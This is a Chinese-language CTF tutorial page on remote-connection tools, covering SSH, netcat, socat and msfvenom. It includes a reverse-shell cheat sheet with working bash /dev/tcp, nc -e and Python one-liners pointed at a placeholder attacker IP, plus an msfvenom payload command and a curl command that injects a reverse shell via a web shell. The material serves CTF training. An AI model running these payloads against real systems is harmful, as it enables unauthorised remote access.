

## 远程连接 -- 工具配置

> CTF 中远程连接是获取交互式 shell、文件传输和持久化访问的基础技能。

### 核心工具

| 工具 | 用途 | 命令示例 |
|------|------|---------|
| SSH | 安全远程登录 | `ssh user@host` |
| nc (netcat) | 端口连接、监听、反弹 shell | `nc host port` |
| socat | 增强版 nc，支持加密和转发 | `socat TCP-L:4444,fork EXEC:/bin/bash` |
| msfvenom | 生成各种反弹 shell payload | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f elf` |

### SSH

```bash
# 基础连接
ssh username@target.com

# 指定端口
ssh -p 2222 username@target.com

# 用私钥连接
ssh -i id_rsa username@target.com

# SOCKS 代理转发
ssh -D 1080 username@target.com

# 远程执行命令
ssh username@target.com "cat /flag"

# 文件传输
scp file.txt username@target.com:/path/
```

### nc（Netcat）反弹 Shell

```bash
# 攻击机：启动监听
nc -lvp 4444

# 目标机：反弹 shell（多种写法，选一种上行得通的）

# bash 标准反弹
bash -i >& /dev/tcp/攻击机IP/4444 0>&1

# nc 反弹
nc -e /bin/bash 攻击机IP 4444

# Python 反弹
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("攻击机IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'

# PHP 反弹（在 Web 命令注入中）
curl "http://target.com/shell.php?cmd=system('bash -i >%26 /dev/tcp/IP/4444 0>%261')"
```

### 反向 Shell 速查流程图



### 关联教程

- [[../WebShell/WebShell|WebShell 配置]] -- WebShell 连接与命令执行
- [[../菜刀类工具/菜刀类工具|菜刀类工具]] -- 图形化 WebShell 管理工具
- [[../../Web前置技能/HTTP协议/HTTP协议|HTTP 协议总览]] -- HTTP 协议基础
- [[../../Web|Web 方向总览]] -- Web CTF 方向入口
